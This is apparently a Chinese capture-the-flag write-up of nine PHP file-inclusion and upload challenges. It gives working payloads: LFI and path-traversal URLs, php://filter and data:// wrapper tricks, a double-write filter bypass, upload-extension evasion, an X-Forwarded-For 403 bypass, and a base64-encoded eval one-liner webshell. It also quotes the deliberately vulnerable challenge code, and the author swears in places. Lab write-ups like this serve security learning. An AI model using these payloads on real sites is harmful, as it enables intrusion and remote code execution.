# 第一题

请在系统根目录下找到flag.txt文件并获取flag值

部分源码：

```php
if (isset($_GET['page'])) {

    $page = $_GET['page'];

    include($page);

}
```

## write up

直接在路径后,添加page参数,如`?page=/flag.txt`即可

# 第二题

所谓的文件包含就是指在一个文件中包含另一个文件，小明的网站是存在包含漏洞的，声称目录下就存在flag.php文件，看你怎么拿？

源码提示：

```php
include($_GET['cx'].".php");
```

## write up

该后台拼接了`.php`后缀, 所以我们不能使用完整的文件名,他会在后台拼接为 `flag.php.php` 导致找不到文件

所以使用 `?x=flag` 即可

# 第三题

管理员设置了访问限制，但flag就在根目录下，你能找到正确的姿势来读取它吗

## write up




403 绕过的几种方式：

- 先查看有没有传cookie，cookie里面有没有关键的字段
- 修改请求的方法，如修改为post，put
- 修改referer 
- 添加 x-forwarded-for: 127.0.0.1

最后尝试添加x-forwarded-for 字段后，可以绕过403



# 第四题

题目的flag值放在系统根目录下，请利用文件上传和文件包含相关的知识，获取到指定的flag内容。

## write up

给了一个文件上传的界面



选择 攻击机中的`C:\Software\网站木马\php\1.php` 通过查看他的内容可以知道他是一个图片马



提示不允许上传php文档，除了内容中有php代码之后，我们先修改filename 后缀名，常见的有

- phtml pht phtm
- php3 php4  php5 php6 php7 php8
- phar



可以看到都上传成功了，可是不知道上传的路径，查看源代码也没有提示。那么使用burp 自带的字典进行爆破



可以看到存在uoploads文件夹，尝试访问之前上传的文件



尝试了很多webshell连接器 去连接，都无法执行，

我忽略了很大的一个问题，这个题目还考了文件包含，而我当前没碰到文件包含，所以我还是执着的尝试文件上传webshell

后来我发现我并没有尝试以下的最佳实践：

1. 大小写php绕过
2. 双后缀绕过，比如apache2.x版本中的双后缀解析，遇到不认识的后缀，会从右到左解析后缀

之后尝试`6.php.xxx` 后，尝试连接webshell ，可以通过

#### 回顾

来看以下服务器端的源码，

```php
if(isset($_FILES['file'])){
    $target_dir = "uploads/";  
    $filename = basename($_FILES["file"]["name"]);
//得到扩展名
    $extension = strtolower(pathinfo($filename, PATHINFO_EXTENSION));
//比较扩展命
    if($extension === "php"){
        echo "错误：不允许上传 PHP 文件！";
        exit;
    }
    $target_file = $target_dir . $filename;

    if(move_uploaded_file($_FILES["file"]["tmp_name"], $target_file)){
        echo "上传成功";
    } else {
        echo "上传失败!";
    }
}
?>
```

连接webshell 后，发现uplaods中原来有一个index.php 

这个才是文件包含漏洞的php文件，源代码如下：

```php
<?php
if(isset($_GET['page'])){
    // 直接包含用户传入的文件，存在严重漏洞
    include($_GET['page']);
} else {
    echo "请在URL中添加参数，例如：?page=xxx.jpg";
    
}
?>
```

# 第五题

flag.php在根目录下，试着找出来

## write up

本题有点傻逼，提示和题目完全没有关系



这题主要考察 php warper 的使用

使用php://filter 来查看源文件，如：

`?cx=php://filter/convert.base64-encode/resource=/flag.php`



### 回顾：

看一下源代码：

```php
<?php
    error_reporting(0); // 关闭错误提示，防止暴露路径信息

    // 获取用户传入的参数
    $category = isset($_GET['cx']) ? $_GET['cx'] : '';

    if ($category) {
        // 如果路径中包含 .. 或 /，拒绝请求
        if (strpos($category, '..') !== false) {
            die("非法路径！");
        }

        // 允许通过 php://filter 读取文件内容
        //这里还必须以php://filter开头，所以应该也没有其他的方式了
        if (strpos($category, 'php://filter') === 0) {
            include($category);
        } else {
            die("不允许的文件类型！");
        }
    }
?>
```

strpos（） 函数的作用： 函数查找字符串在另一字符串中第一次出现的位置。对大小写敏感。如果没有找到字符串则返回 FALSE。**注释：**字符串位置从 0 开始，不是从 1 开始。

# 第六题

flag.php在根目录下，去找到它

和上一题很相似的界面

## write up

```php
<?php
    error_reporting(0); // 关闭错误信息，增加难度

    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        // 获取用户 POST 提交的 cx 参数
        $category_encoded = isset($_POST['cx']) ? $_POST['cx'] : '';
        
        // 解码 base64（增加挑战性）
        $category = base64_decode($category_encoded);

        // 直接包含用户传入的路径
        if (!empty($category)) {
            include($category); // 这里存在文件包含漏洞
        }
    }
?>
```

这种题目完全就是傻逼题目，还增加base64 增加挑战性，一点提示都没有，做你妈个逼


# 第七题 data://协议

 PHP文件包含漏洞的产生原因是在通过PHP的函数引入文件时，由于传入的文件名没有经过合理的校验，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。
 通过你所学到的知识，测试该网站可能存在的包含漏洞，尝试获取flag，答案就在根目录下flag.php文件中。



## write up


可以看到,他自动添加了文件名的后缀, 尝试了很多后缀绕过的方法没有用,

最后用`data://text/plain,<?php sytem('ls')?>` data://伪协议可以用来执行php脚本,

但是他对data://进行了非迭代的替换,所以使用双写绕过,`dadata://ta://text/plain,<?php sytem('ls')?>`

最后只使用`dadata://ta://text/plain,<?php show_source('flag.php')?>`解决,并不是说系统命令不行,知道点其他的也不是坏事

以下是他的源代码:

```php
<?php error_reporting(0); ?>
<?php include("function.php"); ?>
<html>
<head>
  <title></title>
  <link rel="stylesheet" href="../css/bootstrap.css">
  <link rel="stylesheet" href="../css/nav.css">
  <meta charset="UTF-8">
</head>

<body>

  <?php include '../header.php';?>

  <div class="container mt-5 min-height main-body">


<div class="row">
   <div class="col-7 m-auto">
         <h2>文件包含漏洞</h2>
         <?php
             $page=$_GET['page'];

            $page=str_replace("php://", "", $page);
      $page=str_replace("file://", "", $page);
      $page=str_replace("ftp://", "", $page);
      $page=str_replace("zlib://", "", $page);
      $page=str_replace("data://", "", $page);
      $page=str_replace("glob://", "", $page);
      $page=str_replace("phar://", "", $page);
      $page=str_replace("ssh2://", "", $page);
      $page=str_replace("rar://", "", $page);
      $page=str_replace("ogg://", "", $page);
            $page=str_replace("expect://", "", $page);
            $page= $page . ".txt";
?>
         <br>
         <span style="color:red">
             <?php
echo ">> ".$page;
?>
</span>
         <br>
         <br>
         <?php
            include($page);
         ?>
  </div>
  </div>
</div>
<?php include '../footer.php';?>
</body>
</html>
```

# 第八题

  PHP文件包含漏洞的产生原因是在通过PHP的函数引入文件时，由于传入的文件名没有经过合理的校验，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。

通过你所学到的知识，测试该网站可能存在的包含漏洞，尝试获取webshell，答案就在根目录下key.flag文件中。

## write up

刚开始被他的题目描述所迷惑了,想到获取webshell ,就会想data:// 的伪协议,,应该遵循最佳实践:

1. 尝试读取任何系统的文件,比如/etc/passwd 
2. 再尝试php://filter   伪协议
3. 再尝试data:// 伪协议

尝试第一步时,我们可以访问到/etc/passwd ,说明我们可以尝试路径穿越,直接读取这个文件:

```http
http://211.103.180.146:32006/vul/include.php?file=../key.flag
```


确实读到了这个文件,但是他的flag值,可能再php代码当中,当使用include() 包含时,不管什么后缀,只要是php代码,都会被执行

所以这时应该明锐的察觉到,要使用伪协议来读取源代码:

```http
http://211.103.180.146:32006/vul/include.php?file=php://filter/convert.base64-encode/resource=../key.flag
```



这样就获得了flag


# 第九题



## write up

本题明牌告诉参数,但是不知道文件的路径和文件名,应该想到利用webshell来查看, 使用data://伪协议来执行php代码

但是有个问题是,当直接 `file=index.php` 时, 会显示如下:

说明他后端有过滤, 所以应该尝试`data://text/plain;base64`  来绕过,或者双写绕过,

尝试一句话木马:`<?php @eval($_REQUEST[1]);?>` 并进行base64 编码后,使用webshell连接器进行连接

```http
http://IP:PORT/?file=data://text/plain;base64,PD9waHAgQGV2YWwoJF9SRVFVRVNUWzFdKTs/Pg==
```

